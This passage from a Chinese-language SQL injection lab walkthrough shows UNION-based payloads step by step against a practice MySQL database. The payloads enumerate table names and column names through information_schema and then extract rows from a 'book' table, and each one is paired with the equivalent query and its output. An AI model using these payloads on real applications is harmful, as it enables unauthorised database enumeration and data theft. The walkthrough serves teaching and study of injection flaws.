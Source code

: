 ![img](https://s2.loli.net/2022/11/25/RwEG42nazi6VHtQ.png)`union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='book'`



等同于在数据库中执行以下命令

```bash
mysql> SELECT * FROM users WHERE id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='book'  LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | book     | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

mysql>
```

- 3、获取指定数据库book下的book表的列名信息

![img](https://s2.loli.net/2022/11/25/Tm2M95lzIoZKcaU.png)

```
union select 1,group_concat(column_name),3 from information_schema.columns where table_name='book' and table_schema='book'
```

等同于以下的数据库命令

```bash
mysql> use security;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SELECT * FROM users WHERE id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='book' and table_schema='book'  LIMIT 0,1;
+----+------------------------------------------------+----------+
| id | username                                       | password |
+----+------------------------------------------------+----------+
|  1 | book_id,book_title,book_author,submission_date | 3        |
+----+------------------------------------------------+----------+
1 row in set (0.00 sec)

mysql>
```

- 4、查询到指定数据

![img](https://s2.loli.net/2022/11/25/I75x8FwsoA9Tdbp.png)

```bash
mysql> SELECT * FROM users WHERE id=-1 union  select book_id,book_title,book_author from book.book  LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Linux    | oldjiang |
+----+----------+----------+
1 row in set (0.00 sec)

mysql>
```
